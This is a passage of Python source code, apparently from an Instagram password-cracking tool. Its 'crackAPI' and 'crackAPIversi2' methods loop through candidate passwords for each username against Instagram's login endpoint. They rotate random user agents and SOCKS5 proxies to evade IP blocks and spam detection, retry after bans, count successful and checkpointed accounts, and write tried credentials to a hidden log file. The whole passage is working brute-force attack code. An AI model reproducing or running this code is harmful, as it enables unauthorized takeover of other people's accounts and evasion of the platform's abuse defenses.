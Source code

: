 						break
					elif 'ip_block' in str(respon.text) or 'spam' in str(respon.text):
						sys.stdout.write(f'\r{P}[{M}#{P}] crack {M}spamIP {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
						time.sleep(1)
						open('.logCrack','a').write(f'{M}╭({loop}) {user} || {pw}\n╰{respon.text}\n{N}\n')
						self.crackAPI(user,pas)
						loop-=1
						break
				except requests.exceptions.ConnectionError:
					time.sleep(5)
					self.crackAPI(user,pas)
					loop-=1
					break
				except Exception as e:
					pass
					open('.logCrack','a').write(f'{N}╭({loop}) {user} || {pw}\n╰{respon.text}\n{N}\n')
		loop+=1
					
				
	def crackAPIversi2(self,user,pas):
		global loop,success,checkpoint
		ses = requests.Session()
		ua = random.choice(baru)
		sys.stdout.write(f'\r{P}[{H}#{P}] crack {H}stabil {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
		try:
			for pw in pas:
				xxcteam = random.randint(1000000000, 99999999999)
				jam = calendar.timegm(current_GMT)
				proxy = {'http': 'socks5://'+random.choice(prox)}
				p = ses.get('https://z-p15.www.instagram.com/accounts/login/?force_classic_login&hl=en')
				head = {
				       "Host": "z-p15.www.instagram.com",
				       "Connection": "keep-alive",
				       "Content-Length": "320",
				       "X-IG-WWW-Claim": "0",
				       "X-Instagram-AJAX": "9080db6b6a51",
				       "Content-Type": "application/x-www-form-urlencoded",
				       "Accept": "*/*",
				       "X-Requested-With": "XMLHttpRequest",
				       "X-ASBD-ID": "198387",
				       "User-Agent": ua,
				       "X-CSRFToken": p.cookies['csrftoken'],
				       "X-IG-App-ID": "1217981644879628",
				       "Origin": "https://z-p15.www.instagram.com",
				       "Sec-Fetch-Site": "same-origin",
				       "Sec-Fetch-Mode": "cors",
				       "Sec-Fetch-Dest": "empty",
				       "Referer": "https://z-p15.www.instagram.com/accounts/login/",
				       "Accept-Encoding": "gzip, deflate",
				       "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
				       }
				data = {
				      "enc_password": f"#PWD_INSTAGRAM_BROWSER:0:{jam}:{pw}",
				      "username":user,
				      "queryParams":"{}",
				      "optIntoOneTap":"false",
				      "stopDeletionNonce":"",
				      "trustedDeviceRecords":"{}"
				      }
				respon=ses.post("https://z-p15.www.instagram.com/accounts/login/ajax/", headers = head, data = data, proxies = proxy, allow_redirects = False)
				xc_team=json.loads(respon.text)